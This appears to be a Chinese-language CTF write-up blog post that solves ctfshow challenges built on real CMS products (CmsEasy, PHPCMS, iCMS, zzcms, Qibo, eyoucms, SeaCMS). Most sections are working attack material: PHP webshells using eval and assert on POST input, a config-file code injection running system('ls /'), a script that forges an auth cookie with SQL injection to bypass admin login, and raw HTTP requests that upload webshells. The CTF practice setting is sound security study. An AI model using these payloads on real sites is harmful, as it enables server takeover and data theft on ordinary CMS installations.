









+++
title = "ctfshowCMS"
slug = "ctfshow-cms"
description = "刷"
date = "2025-03-04T19:49:07"
lastmod = "2025-03-04T19:49:07"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php"]
+++

## web477

CmsEasy_v5.7漏洞，访问`admin`，弱密码进入`admin\admin`，进入后天之后插入恶意代码即可，选中模板，自定义标签，添加自定义标签

```php
11";}<?php assert($_POST[1]);?>
```

在那两行里面都写入，但是不能链接，也不能RCE，查看`phpinfo()`拿到flag，我本来是要打算起站来进行复现的，但是那代码太神奇了，一点审计意义都没有

## web478

PHPCMSv9.6.0前端任意文件上传

```http
POST /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1
Host: 06c5fcdf-d7eb-48f4-bd68-ae51c5b2edbb.challenge.ctf.show
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; PHPSESSID=n8ihtv8mpaq88t3iec949c9ab4
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 154

siteid=1&modelid=11&username=test&password=test123&email=test123@163.com&info[content]=&dosubmit=1&protocol=
```

## web479

[iCMS-7.0.1后台登录绕过分析](https://github.com/Y4tacker/Web-Security/blob/4aac5ffb955667b15ee3110fb99f6df1016c6760/%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9EAndCMS%E5%AE%A1%E8%AE%A1/CMS/iCMS/iCMS-7.0.1%E5%89%8D%E5%8F%B0%E7%99%BB%E5%BD%95%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/1.md)

```php
<?php
//error_reporting(0);
function urlsafe_b64decode($input){
    $remainder = strlen($input) % 4;
    if ($remainder) {
        $padlen = 4 - $remainder;
        $input .= str_repeat('=', $padlen);
    }
    return base64_decode(strtr($input, '-_!', '+/%'));
}

function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length   = 8;
    $key           = md5($key ? $key : iPHP_KEY);
    $keya          = md5(substr($key, 0, 16));
    $keyb          = md5(substr($key, 16, 16));
    $keyc          = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey      = $keya.md5($keya.$keyc);
    $key_length    = strlen($cryptkey);

    $string        = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result        = '';
    $box           = range(0, 255);

    $rndkey        = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j       = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp     = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a       = ($a + 1) % 256;
        $j       = ($j + $box[$a]) % 256;
        $tmp     = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result  .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}

echo "iCMS_iCMS_AUTH=".urlencode(authcode("'or 1=1##=iCMS[192.168.0.1]=#1","ENCODE","n9pSQYvdWhtBz3UHZFVL7c6vf4x6fePk"));
```

```http
GET /admincp.php HTTP/1.1
Host: 4d979fbb-51ae-48c3-ad8b-33219004d4f5.challenge.ctf.show
Cookie: iCMS_iCMS_AUTH=c17c5b3fk4bcHwqrL%2Fd1tR1DyEXb304oo08z0hFkvi9CiOsMc2HwAhA22UpzDld70U5NP0miRthzRQfxrnU
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close


```

## web480

首先参数`conf`可控，并且在这里发现可以写入文件



```
?conf[CURRENTCONFIGNAME]=");?><?php system("ls /");?>
```

诶，那为啥没有回显呢，看清楚，是写入到`config.php`里面了

## web481

```php
<?php
error_reporting(0);

if(md5($_GET['session'])=='3e858ccd79287cfe8509f15a71b4c45d'){
$configs="c"."o"."p"."y";
$configs(trim($_GET['url']),$_GET['cms']);}

?>
```

这个MD5是ctfshow，但是这个trim进行的处理咋知道呢

`trim($str)` 是 PHP 中用于处理字符串的常用函数，主要用于**移除字符串两端的空白字符或其他指定字符**。若不指定额外参数，`trim()` 会移除字符串首尾的以下字符

- `"\0"`（NULL 字符）
- `"\t"`（制表符）
- `"\n"`（换行符）
- `"\x0B"`（垂直制表符）
- `"\r"`（回车符）
- `" "`（普通空格）

没事用input协议绕过就好了

```http
POST /?session=ctfshow&url=php://input&cms=1.php HTTP/1.1
Host: 4ddbbabd-3d26-4116-81bf-2f346458ee5c.challenge.ctf.show
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-User: ?1
Referer: https://4ddbbabd-3d26-4116-81bf-2f346458ee5c.challenge.ctf.show/
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

<?php @eval($_POST[1]);?>
```

这个马非要这么写，才能链接上

## web482

zzcms8.1重装漏洞，网上查了一下知道是重装漏洞，直接锁定文件夹



看到是包含这几个文件，挨个看看1,2没有用，所以直接看3,4





那就是直接生成之后进来就好了



然后你发现东西又没了，结果是真的没用，也就是说我们做的全是徒劳，直接



我就拿到flag了

## web483

齐博cms7.0后台getshell，`inc/class.inc.php`中的`GuideFidCache()`

```php
/*导航条缓存*/
    function GuideFidCache($table,$filename="guide_fid.php",$TruePath=0){
        global $db,$webdb,$pre;
        if($table=="{$pre}sort"&&$webdb[sortNUM]>500){
            return ;
        }
        $show="<?php \r\n";
        //$showindex="<a href='javascript:guide_link(0);' class='guide_menu'>>首页</a>";
        $showindex="<a href='\$webdb[www_url]' class='guide_menu'>>首页</a>";
        $query=$db->query("SELECT fid,name FROM $table ");
        // 带双引号写入变量，并且未过滤。
        while( @extract($db->fetch_array($query)) ){
            $show.="\$GuideFid[$fid]=\"$showindex".$this->SortFather($table,$fid)."\";\r\n";
        }
        $show.=$shows.'?>';
        if($TruePath==1){
            write_file($filename,$show);
        }else{
            write_file(ROOT_PATH."data/$filename",$show);
        }
    }
```

写入变量使用双引号，因此可以直接构造变量远程执行代码，比如`${phpinfo()}`，访问`/data/guide_fid.php`即可，但是不得不说这道题卡卡的

## web484

eyoucms 前台getshell，`application\api\controller\Uploadify.php`中的`preview()`

```php
$src = file_get_contents('php://input');//使用php伪协议写入
        if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) { //matches被赋值为搜索出来的结果
            $previewUrl = sprintf(
                "%s://%s%s",//类c的输出语言
                isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',//输出http或者https
                $_SERVER['HTTP_HOST'],$_SERVER['REQUEST_URI']//host，不重要的东西
            );
            $previewUrl = str_replace("preview.php", "", $previewUrl);//如果previewUrl也有preview.php则过滤
            $base64 = $matches[2];//获取base64数据
            $type = $matches[1];//获取base64后缀
            if ($type === 'jpeg') {
                $type = 'jpg';
            }//没什么用的判断
        
            $filename = md5($base64).".$type";//将传入的base64那儿进行md5加密，再添上文件类型
            $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;//文件存放路径位preveiw/文件名
        
            if (file_exists($filePath)) {//存在即返回存在的路径
                die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
            } else {
                $data = base64_decode($base64);//不存在就进行base64解密
                file_put_contents($filePath, $data);//并且写入文件
                die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');//返回文件路径
            }
```

什么用没有写个对的上正则的木马就好

```http
POST /index.php/api/Uploadify/preview HTTP/1.1
Host: 85d4b49e-cf9e-44ab-a427-12e711fdf17b.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

访问`preview/f879708c39e5eec19e344c77cc0c9714.php`

## web485

访问`/data/admin/ver.txt`知道了版本，也知道了漏洞CVE-2023-44846，但是，这源码搞不到啊，他这里只有升级包，没有存档，所以我直接下载的v13.1，访问`/admin`，

```php
<?php 
//彻底禁止蜘蛛抓取
if(preg_match("/(googlebot|baiduspider|sogou|360spider|bingbot|Yahoo|spider|bot)/i", $_SERVER['HTTP_USER_AGENT']))
{header('HTTP/1.1 403 Forbidden'); header("status: 403 Forbidden");}

require_once(dirname(__FILE__).'/../include/common.php');
require_once(sea_INC."/check.admin.php");
if(empty($dopost))
{
	$dopost = '';
}
$hashstr=md5($cfg_dbpwd.$cfg_dbname.$cfg_dbuser); //构造session安全码
//检测安装目录安全性
if( is_dir(dirname(__FILE__).'/../install') )
{
	if(!file_exists(dirname(__FILE__).'/../install/install_lock.txt') )
	{
  	$fp = fopen(dirname(__FILE__).'/../install/install_lock.txt', 'w') or die('安装目录无写入权限，无法进行写入锁定文件，请安装完毕删除安装目录！');
  	fwrite($fp,'ok');
  	fclose($fp);
	}
	//为了防止未知安全性问题，强制禁用安装程序的文件
	if( file_exists("../install/index.php") ) {
		@rename("../install/index.php", "../install/index.phpbak");
	}
}


//ip检测
function GetUIP()
{
	if(!empty($_SERVER["HTTP_CLIENT_IP"]))
	{
		$cip = $_SERVER["HTTP_CLIENT_IP"];
	}
	else if(!empty($_SERVER["HTTP_X_FORWARDED_FOR"]))
	{
		$cip = $_SERVER["HTTP_X_FORWARDED_FOR"];
	}
	else if(!empty($_SERVER["REMOTE_ADDR"]))
	{
		$cip = $_SERVER["REMOTE_ADDR"];
	}
	else
	{
		$cip = '';
	}
	preg_match("/[\d\.]{7,15}/", $cip, $cips);
	$cip = isset($cips[0]) ? $cips[0] : 'unknown';
	unset($cips);
	return $cip;
}
$uip = GetUIP();
require_once("../data/admin/ip.php");
if($v=="1" AND !strstr($ip,$uip)){die('IP address is forbidden access');}

//登录检测
$admindirs = explode('/',str_replace("\\",'/',dirname(__FILE__)));
$admindir = $admindirs[count($admindirs)-1];
$v=file_get_contents("../data/admin/adminvcode.txt");

if($dopost=='login' AND $v==1)
{
		$validate = empty($validate) ? '' : strtolower(trim($validate));
		$svali = strtolower(GetCkVdValue());
		
			if($validate=='' || $validate != $svali)
			{
				ResetVdValue();
				
				ShowMsg('验证码不正确!','-1');
				exit();
				
			}

	else
	{
		$cuserLogin = new userLogin($admindir);
		if(!empty($userid) && !empty($pwd))
		{
			$res = $cuserLogin->checkUser($userid,$pwd);

			//success
			if($res==1)
			{
				$cuserLogin->keepUser();
				$_SESSION['hashstr']=$hashstr;
				if(!empty($gotopage))
				{
					ShowMsg('成功登录，正在转向管理管理主页！',$gotopage);
					exit();
				}
				else
				{
					ShowMsg('成功登录，正在转向管理管理主页！',"index.php");
					exit();
				}
			}

			//error
			else if($res==-1)
			{
				ShowMsg('你的用户名不存在!','-1');
				exit();
			}
			else
			{
				ShowMsg('你的密码错误!','-1');
				exit();
			}
		}

		//password empty
		else
		{
			ShowMsg('用户和密码没填写完整!','-1');
				exit();
		}
	}
}

if($dopost=='login' AND $v==0)
{
		$cuserLogin = new userLogin($admindir);
		if(!empty($userid) && !empty($pwd))
		{
			$res = $cuserLogin->checkUser($userid,$pwd);

			//success
			if($res==1)
			{
				$cuserLogin->keepUser();
				$_SESSION['hashstr']=$hashstr;
				if(!empty($gotopage))
				{
					ShowMsg('成功登录，正在转向管理管理主页！',$gotopage);
					exit();
				}
				else
				{
					ShowMsg('成功登录，正在转向管理管理主页！',"index.php");
					exit();
				}
			}

			//error
			else if($res==-1)
			{
				ShowMsg('你的用户名不存在!','-1');
				exit();
			}
			else
			{
				ShowMsg('你的密码错误!','-1');
				exit();
			}
		}

		//password empty
		else
		{
			ShowMsg('用户和密码没填写完整!','-1');
				exit();
		}

}
$cdir = $_SERVER['PHP_SELF']; 
include('templets/login.htm');

?>
```

进来之后发现发现能够登录后台，只不过不能直接登要使用bp什么的，并且知道`$v`为1，所以我们看这里面的



可以直接登录



拿下拿下，那直接写shell就好了，`/admin/admin_notify.php`可以写入shell



```php
123";eval($_POST[1]);$notify="
```

在任何一个通知写都可以，访问即可

## web600

DSCMS(20210531)，这是个什么版本，直接下载最新版的，emm不会挖，哎
